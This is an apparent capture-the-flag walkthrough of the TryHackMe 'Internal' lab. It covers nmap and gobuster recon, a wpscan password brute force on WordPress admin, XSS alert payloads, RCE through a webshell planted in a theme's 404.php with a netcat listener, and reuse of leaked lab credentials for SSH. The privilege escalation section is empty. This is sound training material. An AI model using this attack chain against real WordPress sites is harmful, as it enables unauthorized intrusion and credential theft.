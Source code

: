 # Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###

![alt text](/Hard/Internal/Images/image-1.png)

### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:

![alt text](/Hard/Internal/Images/image.png)

![alt text](/Hard/Internal/Images/image-2.png)

+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```

![alt text](/Hard/Internal/Images/image-3.png)

--> We could brute-force the credential user "admin". 
 + After brute-force successfully we had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 

![alt text](/Hard/Internal/Images/image-4.png)

--> The credential was leaked: william:arnold147

-----------------------------------------------------------------------------------------

### XSS ###
+ The vulnerability XSS appear in feature "Comments".
+ We will test common payload XSS first:

```bash
<script>alert('XSS')</script>
```

![alt text](/Hard/Internal/Images/image-6.png)

+ When we update comment and "View Post" so the website pop up the box alert:

![alt text](/Hard/Internal/Images/image-7.png)

+ Second XSS we've found that is feature "Posts".
+ We edit the title of post and save it. When we view the post, the pop up alert will appear.

![alt text](/Hard/Internal/Images/image-8.png)

![alt text](/Hard/Internal/Images/image-9.png)

+ Third XSS that is the feature "Pages".
+ We edit the title page and when we review it the pop up alert will appear again.

![alt text](/Hard/Internal/Images/image-10.png)

![alt text](/Hard/Internal/Images/image-11.png)

-----------------------------------------------------------------------------------------------------

### Exploit Themes to RCE ###

+ When we've checked in Site Health page, we've known that we had 2 themes was out of date:

```bash
### wp-active-theme ###

name: Twenty Seventeen (twentyseventeen)
version: 2.3
author: the WordPress team
author_website: https://wordpress.org/
parent_theme: none
theme_features: automatic-feed-links, title-tag, post-thumbnails, menus, html5, post-formats, custom-logo, customize-selective-refresh-widgets, editor-style, editor-styles, wp-block-styles, responsive-embeds, starter-content, custom-header, widgets
theme_path: /var/www/html/wordpress/wp-content/themes/twentyseventeen

### wp-themes-inactive (2) ###

Twenty Nineteen: version: 1.5, author: the WordPress team (latest version: 1.6)
Twenty Twenty: version: 1.2, author: the WordPress team (latest version: 1.4)

### wp-plugins-inactive (2) ###

Akismet Anti-Spam: version: 4.1.5, author: Automattic (latest version: 4.1.6)
Hello Dolly: version: 1.7.2, author: Matt Mullenweg

### wp-filesystem ###

wordpress: not writable
wp-content: not writable
uploads: not writable
plugins: not writable
themes: not writable
```
--> Researching we know that theme is out of date will have the potential vulnearability in file "404.php". We are able to edit PHP file to RCE.

+ Checking 2 themes is out of date, theme "Twenty Nineteen" can't be edited but theme "Twenty Twenty" can be edited.
+ First we will active the theme "Twenty Twenty" replace theme "Twenty Seventeen". After we will edit file 404.php to RCE.
+ We can choose the webshell.php of PentestMonkey.
+ Update file successfully, we access the URL "http://internal.thm/wordpress/wp-content/themes/twentytwenty/404.php" and open netcat to catch the opened PORT.

![alt text](image.png)

+ RCE successfully and now we have to find the information to login user "aubreanna".
+ After a period of searching, we've found the interesting file in /opt.

```bash
www-data@internal:/$ cd /opt
cd /opt
www-data@internal:/opt$ ls
ls
containerd
wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

--> We've found the credential aubreanna:bubb13guM!@#123. We use it to login SSH.

![alt text](image-1.png)

-------------------------------------------------------------------------------------

### PRIVILEGE ESCALTION ROOT ###



